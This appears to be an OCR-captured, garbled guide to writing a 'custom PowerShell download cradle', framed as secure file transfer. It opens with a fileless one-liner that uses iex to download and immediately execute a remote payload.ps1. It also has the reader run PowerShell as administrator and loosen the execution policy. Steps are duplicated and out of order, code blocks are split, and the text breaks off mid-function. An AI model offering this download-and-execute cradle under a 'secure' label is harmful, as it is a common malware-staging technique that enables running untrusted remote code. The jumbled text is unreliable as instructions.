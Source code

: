 ```powershell iex (New-Object Net.WebClient).DownloadString("http://example.com/payload.ps1") “``` 
**Step 3: Create a new PowerShell script file** 
_Next, create a new PowerShell script file (.ps1) using any text editor like Notepad or Visual Studio Code. For the purposes of this guide, we will name the file_ 
``
Download-Cradle.ps1.
``
***
 **Step 4: Write the custom download cradle function** 
 _In the Download-Cradle.ps1 file, write the following custom download cradle function:_
```
powershell function Invoke-DownloadCradle { param ( [Parameter(Mandatory=$true)][string] $Url, [Parameter(Mandatory=$true)][string] $DestinationPath) 
```
```
try { $webClient = New-Object System.Net.WebClient $webClient.DownloadFile($Url, $DestinationPath) Write-Host “File downloaded successfully to $DestinationPath” } catch { Write-Error “An error occurred while downloading the file: $_” } } 
```

_This function uses the System.Net.WebClient class to securely download files from the specified URL to a local destination path._ 
***
**Step 5: Save and execute the custom download cradle script** 
_Save the Download-Cradle.ps1 file and execute it in the PowerShell command-line environment by running:_ 
``Download-Cradle.ps1 
``
***
**Step 6: Use the custom download cradle function** 
_Now that the custom download cradle function has been loaded, you can use it to securely download files by providing the required parameters (URL and destination path):_

In this guide, we will go through the process of creating and implementing a custom PowerShell download cradle for secure and efficient file transfers within command-line environments. Here are the step-by-step instructions: 

***Step 1: Open PowerShell with elevated privileges***

_First, open the PowerShell command-line environment with administrator privileges. To do this, right-click on the PowerShell icon, and select ``Run as administrator.``_ 

**Step 2: Configure script execution policy** 
_Before creating the custom PowerShell download cradle, configure the script execution policy to allow for the execution of your custom script._ 
_To do this, enter the following command:_ 
``
powershell Set-ExecutionPolicy RemoteSigned 
``
_Press ‘Y’ when prompted to confirm the policy change._ 

**Step 3: Create a new PowerShell script file** 
_Next, create a new PowerShell script file (.ps1) using any text editor like Notepad or Visual Studio Code. For the purposes of this guide, we will name the file_ 
``Download-Cradle.ps1.`` 

**Step 4: Write the custom download cradle function** 
_In the ``Download-Cradle.ps1`` file, write the following custom download cradle function:_

```
powershell function Invoke-DownloadCradle { param ( [Parameter(Mandatory=$true)][string] $Url, [Parameter(Mandatory=$true)][string] $DestinationPath ) 
```

try 
```